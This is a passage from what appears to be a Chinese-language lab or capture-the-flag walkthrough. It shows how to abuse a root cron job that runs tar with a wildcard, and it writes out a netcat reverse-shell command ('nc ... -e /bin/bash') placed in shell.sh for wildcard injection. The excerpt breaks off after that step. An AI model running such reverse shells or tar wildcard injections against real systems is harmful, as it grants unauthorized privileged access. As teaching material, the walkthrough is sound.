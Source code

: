 ![图片描述](..\images\2021-01-23_50.jpg)

可以看到上图红框中，管理员配置了这样一条定时任务：每分钟执行一次，将 `/var/www/html/` 文件夹中的所有内容打包到 `/var/backups/html.tgz` 进行备份。

接下来我们查看 `/var/www/html` 目录下有哪些文件：

![图片描述](..\images\2021-01-23_51.jpg)

想利用 tar 进行通配符注入，我们需要在 `/var/www/html/` 文件夹下创建以下 3 个文件：

创建 `shell.sh`，内容为使用 `nc` 反弹 shell 到本地 4444 端口：

```jsx
cd /var/www/html/
echo 'nc 127.0.0.1 4444 -e /bin/bash' > shell.sh
```
